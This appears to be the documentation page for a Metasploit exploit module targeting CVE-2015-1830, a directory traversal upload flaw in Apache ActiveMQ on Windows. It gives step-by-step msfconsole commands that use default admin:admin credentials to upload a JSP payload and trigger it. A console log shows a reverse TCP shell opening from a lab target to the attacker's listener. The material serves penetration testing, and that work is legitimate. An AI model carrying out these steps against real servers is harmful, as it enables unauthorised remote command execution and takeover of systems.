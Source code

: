 ## Introduction

A directory traversal vulnerability was discovered in the fileserver upload/download functionality for blob messages in Apache ActiveMQ 5.x before 5.11.2 for Windows. The vulnerability, tracked as CVE-2015-1830, allows remote attackers to create JSP files in arbitrary directories via unspecified vectors.

Because vulnerable servers allow for directory traversal, they will accept HTTP PUT requests for `/fileserver/..\\admin\\` and process these as requests for `/admin/`. For the PUT request to succeed, credentials need to be provided.

This module exploits CVE-2015-1830 by attempting to upload a JSP payload to a target via an HTTP PUT requests for `/fileserver/..\\admin\\` using the default credentials `admin:admin` (or any other credentials provided by the user). It then issues an HTTP GET request to `/admin/<payload>.jsp` on the target in order to trigger the payload and obtain a shell. The module has been successfully tested against ActiveMQ 5.11.1 on a Windows 7 machine.

## Verification Steps

1. Start msfconsole.
2. Do: `use exploit/windows/http/apache_activemq_traversal_upload`.
3. Do: `set RHOSTS [IP]`. This option is used to set the IP address of the remote system running Apache ActiveMQ.
4. Do: `set PAYLOAD [payload]`. This option can be used to set the payload to use against the target. The default payload is `java/jsp_shell_reverse_tcp`.
5. Do: `set LHOST [IP]`. This option is used to set the IP address of the local machine the payload should establish a connection with.
6. Do: `exploit`.

## Options

1.  `PASSWORD`. The default setting is `admin`, which is the default password for the ActiveMQ administrator account.
2.  `PATH`. This option is the traversal path. `/fileserver/..\admin\` by default.
3.  `USERNAME`. The default setting is `admin`, which is the default ActiveMQ administrator account.

## Scenarios

```
msf exploit(windows/http/apache_activemq_traversal_upload) > show options

Module options (exploit/windows/http/apache_activemq_traversal_upload):

   Name       Current Setting        Required  Description
   ----       ---------------        --------  -----------
   PASSWORD   admin                  yes       Password to authenticate with
   PATH       /fileserver/..\admin\  yes       Traversal path
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.2            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8161                   yes       The target port (TCP)
   SSL        false                  no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                      yes       The base path to the web application
   USERNAME   admin                  yes       Username to authenticate with
   VHOST                             no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


msf exploit(windows/http/apache_activemq_traversal_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.1:4444 
[*] Uploading payload...
[*] Payload sent. Attempting to execute the payload.
[*] Payload executed!
[*] Command shell session 1 opened (192.168.1.1:4444 -> 192.168.1.2:49194) at 2020-02-04 10:55:36 +0100

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop\activemq 5.11.1\apache-activemq-5.11.1\bin\win64>
```

## References

1. <https://www.cvedetails.com/cve/CVE-2015-1830/>
2. <https://activemq.apache.org/security-advisories.data/CVE-2015-1830-announcement.txt>
